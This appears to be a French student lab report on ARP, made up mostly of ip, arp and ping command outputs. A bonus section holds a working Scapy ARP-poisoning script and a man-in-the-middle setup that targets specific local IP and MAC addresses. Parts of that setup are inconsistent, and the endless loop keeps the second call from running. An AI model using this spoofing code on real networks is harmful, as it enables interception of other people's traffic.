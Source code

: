 # TP3 : 32°13'34"N 95°03'27"W

☀️ Avant de continuer...
```
> ip a
link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
```
☀️ Affichez votre table ARP

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
_gateway (10.33.79.254) at 7c:5a:1c:d3:d8:76 [ether] on wlp3s0
```

☀️ Déterminez l'adresse MAC de la passerelle du réseau de l'école

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
```

☀️ Supprimez la ligne qui concerne la passerelle

```
> sudo arp -d 10.33.79.254
[sudo] password for effect: 
SIOCDARP(dontpub): Network is unreachable
```

☀️ Prouvez que vous avez supprimé la ligne dans la table ARP

```
> arp -a
(elle est vide)
```

☀️ Wireshark

*Fichier disponible sur mon git*

# II. ARP dans un réseau local

### 1. Basics

☀️ Déterminer

Adresse IP : `192.168.11.211/24`

Adresse MAC : `b8:1e:a4:6c:56:97`

☀️ DIY

nouvelle adresse IP : `192.168.6.0/24`

```
> ip a
2: wlp3s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.6.0/24 scope global wlp3s0
       valid_lft forever preferred_lft forever
    inet6 2a02:8440:6440:373b:99b8:5e2f:9265:4c53/64 scope global temporary dynamic 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 2a02:8440:6440:373b:a671:31ee:6e09:f879/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 fe80::aead:b484:22e8:76d1/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

☀️ Pingz !

```
> ping 192.168.11.7
PING 192.168.11.7 (192.168.11.7) 56(84) bytes of data.
64 bytes from 192.168.11.7: icmp_seq=1 ttl=128 time=172 ms
64 bytes from 192.168.11.7: icmp_seq=2 ttl=128 time=5.49 ms
64 bytes from 192.168.11.7: icmp_seq=3 ttl=128 time=10.1 ms
64 bytes from 192.168.11.7: icmp_seq=4 ttl=128 time=11.4 ms
```

```
> ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=106 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=150 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=69.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=91.7 ms
```

### 2. ARP

☀️ Affichez votre table ARP !

```
> arp -a
? (192.168.11.7) at 34:c9:3d:22:97:2d [ether] on wlp3s0
? (192.168.11.30) at 14:5a:fc:7f:13:93 [ether] on wlp3s0
? (192.168.11.32) at 34:c9:3d:22:97:2d [ether] on wlp3s0
_gateway (192.168.11.46) at 96:24:c9:47:ee:dc [ether] on wlp3s0
? (192.168.11.47) at 58:cd:c9:60:e5:fb [ether] on wlp3s0
```

```
> arp -a
(toute vide)
```

☀️ Capture arp2.pcap

*Fichier dispo sur mon git*

### 3. Bonus : ARP poisoning


```

⭐ Empoisonner la table ARP de l'un des membres de votre réseau

from scapy.all import ARP, Ether, sendp, conf, getmacbyip

def arp_poison(victim_ip, victim_mac, router_ip):
    # Get your own MAC address (attacker's MAC)
    attacker_mac = "b8:1e:a4:6c:56:97"
    
    # Create an Ethernet frame with the destination MAC as the victim's MAC
    ethernet = Ether(dst=victim_mac)
    
    # Create an ARP response saying that your MAC address (attacker_mac) is the router (router_ip)
    arp_response = ARP(pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac, op='is-at')
    
    # Combine the Ethernet frame and the ARP response
    packet = ethernet / arp_response

    # Send the ARP response packet in a loop to keep poisoning the victim's ARP cache
    while True:
        sendp(packet, verbose=0)


⭐ Mettre en place un MITM

target_ip = "192.168.11.7"  # IP of the victim
target_mac = "34-C9-3D-22-97-2D"  # MAC of the victim
spoof_ip = "192.168.11.46"  # IP you want to spoof (usually the gateway)

target_ip2 = "192.168.11.46"  # IP of the victim
target_mac2 = "96-24-c9-47-ee-dc"  # MAC of the victim
spoof_ip2 = "192.168.11.46"  # IP you want to spoof (usually the gateway)

arp_poison(target_ip, target_mac, spoof_ip)
arp_poison(target_ip2, target_mac2, spoof_ip2)
```